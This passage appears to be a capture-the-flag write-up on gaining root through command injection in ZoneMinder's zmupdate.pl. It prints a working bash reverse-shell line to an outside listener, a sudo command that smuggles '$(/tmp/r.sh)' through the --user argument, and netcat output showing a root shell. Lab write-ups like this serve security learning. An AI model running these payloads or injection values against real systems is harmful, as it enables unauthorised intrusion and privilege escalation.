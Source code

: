 ```
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```
Within `zmupdate.pl`, we might eventually see that a mysqldump command is being run. I recognize this as a binary, and with no absolute path it is likely being invoked using some kind of shell like bash:
```perl
    if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser;
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;

```
In this case if we supply a dbUser (--user flag), we can perform command injection. My payload is to run a reverse shell, using a basic payload from revshells:
```
zoneminder@surveillance:/tmp$ cat r.sh
bash -i >& /dev/tcp/10.10.14.102/8080 0>&1
```
Payload used:
```
sudo /usr/bin/zmupdate.pl --version=1.3 --user='$(/tmp/r.sh)' --pass=asdf
```
Now on my listener, I get a connection back. 
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.245] 60952
root@surveillance:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@surveillance:/tmp# 
```
